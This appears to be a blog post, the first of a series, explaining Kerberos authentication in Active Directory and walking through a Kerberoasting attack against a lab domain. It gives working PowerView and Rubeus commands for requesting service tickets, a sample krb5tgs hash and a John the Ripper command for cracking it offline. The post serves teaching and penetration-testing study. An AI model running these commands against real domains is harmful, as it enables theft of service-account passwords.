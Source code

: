 ```yaml
---
cover: https://i.postimg.cc/NjfMXj1G/Designer-1.jpg
title: "A Deep Dive into Kerberos: Understanding Kerberoasting and ASREPRoasting Attacks."
date: 8/23/2024 6:50:40 +06:00
categories: research
tags: [Kerberos, Kerberoasting, Asreproasting]
toc: true
toc_number: false
---
```

# Overview

Welcome to my three-part blog series! In this first part, I'll dive deep into how Kerberos works and take a closer look at Kerberoasting and ASREPRoasting attacks. In the next part, we'll explore Kerberos delegation, some of the architectural and design issues in Kerberos, and how attackers can exploit these weaknesses. The final part will be about Shadow Credentials.

Kerberos is one of the main authentication protocols in Active Directory, along with NTLM and LDAP. It's considered secure because it uses tickets to authenticate clients and servers, avoiding the need to store passwords locally. Plus, it involves a trusted third party, the Key Distribution Center (KDC), which also acts as the domain controller and uses built-in symmetric cryptography. However, as with any security system, Kerberos isn't perfect and has its vulnerabilities. We will be using (Rubeus)[https://github.com/GhostPack/Rubeus] throughout this blog which is one of the most sought after tool when it comes to attacking Kerberos.

# Kerberos Working

![Kerberos Working](https://i.postimg.cc/YqdDpdRn/Untitled-Diagram-drawio.png)

There are generally three things involved in kerberos authentication
- Client
- Service 
- KDC (Authentication Server, Ticket granting Server)

Supose a user wants to access a service in a office which uses Active Directory network like HTTP service for accessing web applications, CIFS service for accessing file shares, LDAP Service, Database Services like MYSQL and Postgresql for database administration or searching stuffs, SMTP service for sending emails, IMAP or POP3 service and many more. How does he/she access them? Inside KDC which is the Domain Controller there are two servers one is the Authentication Server which confirms that a known user is making an access request and issues a valid TGT and another is Ticket Granting Server which confirms that the user is making access request to a known service aka which exists in the domain and issues a ST service Ticket.

- **AS-REQ(Authentication Server Request):** The user requests TGT from the authentication server by sending an encrypted timestamp which is encrypted using the user's password.
- **AS-REP(Authentication Server Response):** The authentication server verifies the client and sends back TGT, this TGT is encrypted using password hash of krbtgt account. 
- **TGS-REQ(Ticket Granting Server Request):** Suppose the client wants to access MSSQL-2 service on dev.dhitalcorp.local domain, now the client sends the TGT along with SPN(service principal name) `alex\MSSQL-2$@dev.dhitalcorp.local` to the ticket granting server to request for a service ticket.
- **TGS-REP(Ticket Granting Server Response):** The Ticket granting server verifies the TGT and provides them ST(Service Ticket) for the requested service. This service ticket is encrypted using the ntlm hash of the service. The TGS doesnot verify if the client has access to the service or not it directly provides them service ticket after verifying their TGT, since the service ticket is encrypted using NTLM hash of the service kerberoasting attack comes into play in here.
- **AP-REQ(Authentication Protocal Request):** The client sends the service ticket to the service 
- **AP-RES(Authentication Protocal Response):** The service verifies if the client has access and grants access.
# Kerberoasting

Most services run on a machine under the context of a user account. Above in the TGS-REP step, the Ticket Granting Server (TGS) sends the client a Service Ticket for the service they requested, based on the SPN they provided. Part of this Service Ticket is encrypted with the password of the user account running that service. The TGS doesn’t check if the client actually has access to that service or not. This means that as a regular domain user, we can request service tickets for any service and then crack them offline to uncover the plaintext password of the user account running that service. 

As a regular domain user first list all kerberoastable accounts(service accounts running in the context of user accounts). We can use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

```bash
PS C:\Users\Alex> Get-DomainUser -SPN

distinguishedName : CN=SQLService,OU=Service Accounts,DC=dev,DC=dhitalcorp,DC=local
enabled           : True
name              : mssql_svc
objectClass       : user
objectGUID        : 12345678-90ab-cdef-1234-567890abcdef
passwordExpired   : False
pwdLastSet        : 7/23/2024 12:34:56 PM
samAccountName    : mssql_svc
servicePrincipalName : MSSQLSvc/sql-1.dev.dhitalcorp.local:1433
userPrincipalName : SQLService@dev.dhitalcorp.local
```
We can request service ticket for this `mssql_svc` service account and crack it offline.
- We can also use PowerView to request service ticket for this `mssql_svc` service account:  `Get-DomainUser -SPN mssql_svc | Get-DomainSPNTicket`
- We can also use [Invoke-Kerberoast](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/) to both find and roast kerberoastable accounts.
-  If you want the hash in specific format for cracking we can also request it using OutputFormat as `Get-DomaintUser -SPN mssql_svc | Get-DomainSPNTicket -OutputFormat hashcat`.

Below we are using Rubeus. 

```bash
PS C:\Users\Alex> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap

[*] Action: Kerberoasting

[*] Target User  : mssql_svc
[*] Target Realm : DEV.DHITALCORP.LOCAL

[*] Searching for service tickets...

[*] ServicePrincipalName              : MSSQLSvc/sql-1.dev.dhitalcorp.local:1433
[*] UserName                          : mssql_svc
[*] UserDomain                        : DEV.DHITALCORP.LOCAL
[*] ServiceTicket (base64)            : <ticket data>

[*] RC4_HMAC(NT) hash for mssql_svc@DEV.DHITALCORP.LOCAL:
$krb5tgs$23$*mssql_svc$DEV.DHITALCORP.LOCAL$MSSQLSvc/sql-1.dev.dhitalcorp.local:1433*$D098E44F9B1C3CDE120A4A3DA2D32C4F$5C233E56F3C8B12F7D0B8A5DCC5A8D0C99E3B5F471D618F3B830C6F7E6FDE63DDA3C91C8E5A5D78F3A8B49A4E59CBFA2EED4A6B91FC3E671B1C8B08A9AC292FB
```
Remove the service principal name from the hash to crack using John. The hash should be in format `$krb5tgs$23$*mssql_svc$DEV.DHITALCORP.LOCAL*$D098E44F9B1C3CDE120A4A3DA2D32C4F$5C233E56F3C8B12F7D0B8A5DCC5A8D0C99E3B5F471D618F3B830C6F7E6FDE63DDA3C91C8E5A5D78F3A8B49A4E59CBFA2EED4A6B91FC3E671B1C8B08A9AC292FB`. Save the hash as `mssql_svc.txt`. We can crack this using John as follows.

```bash
┌──(alex㉿kali)-[~]
└─$ john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou2024.txt mssql_svc.txt
```
